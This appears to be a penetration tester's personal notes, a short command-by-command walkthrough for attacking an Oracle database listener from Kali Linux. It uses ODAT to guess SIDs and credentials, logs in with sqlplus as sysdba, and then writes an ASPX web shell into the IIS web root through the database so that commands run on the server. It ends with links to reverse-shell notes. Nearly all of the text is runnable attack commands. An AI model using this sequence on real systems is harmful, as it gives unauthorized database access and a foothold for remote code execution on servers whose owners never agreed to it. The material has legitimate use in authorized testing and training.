```bash - kali
sudo apt install odat
```

```bash - kali
sudo odat all -s $TARGET -p 1521
```

found sids:
EXAMPLE1
EXAMPLEDB

found creds:
$USER : $PASSWORD

```bash - kali
sudo apt install sqlplus
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1
```

```bash - kali
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```bash - kali
sqlplus $USER/$PASWORD@$TARGET:1521/EXAMPLE1
```

```oracle - sql
select * from user_role_privs;
```

```oracle - sql
exit
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1 as sysdba
```

```oracle - sql
select * from user_role_privs;
```

```bash - kali
odat all -s $TARGET -d XE -U $USER -P $PASSWORD --sysdba
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "test.txt" "/home/kali/Desktop/test.txt" 
```

```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "cmdasp.aspx" "/home/kali/Desktop/cmdasp.aspx"
```

```html - firefox
firefox http://$TARGET/cmdasp.aspx
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#Stageless Payloads]]

